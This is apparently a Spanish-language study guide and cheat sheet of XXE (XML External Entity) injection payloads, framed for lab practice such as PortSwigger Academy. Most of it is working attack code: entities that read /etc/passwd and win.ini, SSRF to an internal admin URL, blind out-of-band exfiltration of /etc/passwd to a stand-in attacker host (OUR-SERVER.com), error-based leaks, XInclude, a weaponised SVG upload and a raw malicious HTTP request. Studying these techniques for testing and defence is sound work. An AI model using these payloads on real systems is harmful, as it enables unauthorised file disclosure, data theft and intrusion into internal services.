 
# Payloads para XXE (XML External Entity Injection)

En esta guía recopilamos los **payloads más importantes para explotar XXE**, explicando su uso, objetivo y contexto. Todos estos ejemplos deben probarse únicamente en entornos de laboratorio.

---

## 1. Lectura de archivos locales (File Disclosure)

El payload clásico para leer un archivo del sistema:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
````

* Definimos `xxe` como una entidad que apunta a un archivo local.
* El servidor reemplaza `&xxe;` por el contenido del archivo.

Otro ejemplo apuntando a un archivo sensible en Windows:

```xml
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> 
]>
<data>&xxe;</data>
```

---

## 2. SSRF mediante XXE

Podemos obligar al servidor a realizar peticiones HTTP a recursos internos:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin"> 
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

* Útil para descubrir **servicios internos** o interactuar con APIs.

---

## 3. XXE Ciego con exfiltración Out-of-Band (OOB)

Cuando la respuesta no nos devuelve directamente el resultado, podemos extraer datos enviándolos a un servidor bajo nuestro control.

Ejemplo para filtrar `/etc/passwd` hacia un servidor externo:

```xml
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OUR-SERVER.com/?data=%file;'>">
  %eval;
  %exfil;
]>
```

* `%file` lee `/etc/passwd`.
* `%eval` construye una nueva entidad.
* `%exfil` envía el contenido a `OUR-SERVER.com`.

---

## 4. Basado en errores (Error-based XXE)

Provocamos un fallo que revele datos en el mensaje de error:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">
]>
<foo>&fail;</foo>
```

---

## 5. XInclude (cuando no podemos usar DOCTYPE)

Algunos entornos bloquean `DOCTYPE`, pero podemos usar XInclude:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

---

## 6. XXE vía subida de archivos

Podemos incrustar payloads en archivos basados en XML, como SVG:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg height="100" width="100">
  <text x="10" y="20">&xxe;</text>
</svg>
```

Si el servidor procesa el SVG, mostrará el contenido de `/etc/passwd`.

---

## 7. Cambio de Content-Type

Forzamos a que un endpoint interprete entrada como XML:

```
POST /api HTTP/1.1
Host: vulnerable.com
Content-Type: text/xml

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>&xxe;</data>
```

---

## Resumen rápido

| Payload / Técnica       | Ejemplo clave                                          | Objetivo principal |
| ----------------------- | ------------------------------------------------------ | ------------------ |
| File Disclosure         | `<!ENTITY xxe SYSTEM "file:///etc/passwd">`            | Leer archivos      |
| SSRF via XXE            | `<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">`        | Pivoting interno   |
| Blind XXE (OOB)         | `%exfil SYSTEM "http://OUR-SERVER.com/?%file;"`        | Exfiltración       |
| Error-based XXE         | `<!ENTITY fail SYSTEM "file:///does/not/exist/%xxe;">` | Filtrado por error |
| XInclude                | `<xi:include href="file:///etc/passwd"/>`              | Sin DOCTYPE        |
| File upload (SVG, DOCX) | SVG con `&xxe;`                                        | Vía ficheros XML   |
| Modified Content-Type   | Mandar XML en `text/xml` aunque no se espere           | Forzar parser      |

---

## Conclusión

Estos payloads representan los escenarios más comunes de explotación XXE.
La práctica en laboratorios como **PortSwigger Academy** es fundamental para afianzar estas técnicas.
Siempre debemos recordar que en entornos reales, el uso ofensivo sin autorización es ilegal: lo aplicamos solo en entornos de pruebas controladas.

```
